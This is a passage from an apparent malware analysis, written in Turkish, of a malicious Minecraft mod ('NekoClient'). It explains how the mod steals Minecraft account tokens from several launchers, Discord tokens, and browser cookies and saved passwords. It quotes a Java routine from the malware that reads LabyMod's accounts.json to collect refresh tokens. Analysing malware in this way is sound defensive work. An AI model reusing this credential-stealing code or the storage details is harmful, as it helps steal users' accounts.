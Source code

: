 ### Veri hırsızlığı

**MSA Jetonları**: Bu mod Minecraft modlarını hedef aldığından, Minecraft'a giriş yapmak için kullanılan MSA belirtecini çalmaya çalışması doğaldır. Bazı başlatıcılar bu verileri, bu kötü amaçlı yazılımın okumaya çalışacağı yerel bir dosyada tutar. Bu, aşağıdakiler gibi çeşitli başlatıcıları etkiler:

* Vanilla/mojang başlatıcısı
* Eski vanilya/mojang başlatıcı
* PolyMC / Prizma
* Technic
* Feather
* LabyMod (< v3.9.59)
* Ve [Windows Credential Manager]'da (https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0) bulunan herhangi bir MSA belirteci

Retrival mantığı ([`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java)) bu verileri benzer bir şekilde sakladıkları için bir dizi öğede benzer görünüyor. Örneğin burada laby-mod kodu bulunmaktadır:
```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```
Feather/PolyMC/Prism'den token almak için kullanılan kod esasen aynıdır.

Bu stratejiden vanilya başlatıcılara olan değişiklik, Json'un onu koruyan ek bir kriptografi katmanına sahip olmasıdır.

Bu stratejiden technic'e olan değişiklik, technic'in kimlik bilgilerini Java'nın yerleşik nesne serileştirmesini kullanarak saklaması ve `com.google.api.client.auth.oauth2.StoredCredential` türünü sarmasıdır.

**Discord belirteçleri**: Herkes daha önce bir token hırsızı görmüştür. Standart istemci, canary, ptb ve lightcord istemcilerini etkiler.

**Çerezler ve Kaydedilmiş kimlik bilgileri**: Etkilenen tarayıcılarda kayıtlı çerezleri ve oturum açma kimlik bilgilerini çalar.  İlgili kaynak: [`dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java)

- Mozilla Firefox
  - Waterfox
  - Pale Moon
  - SeaMonkey
- Chrome
  - Edge
  - Brave
  - Vivaldi
  - Yandex
  - Slimjet
  - CentBrowser
  - Comodo
  - Iridium
  - UCBrowser
  - Opera
    - Beta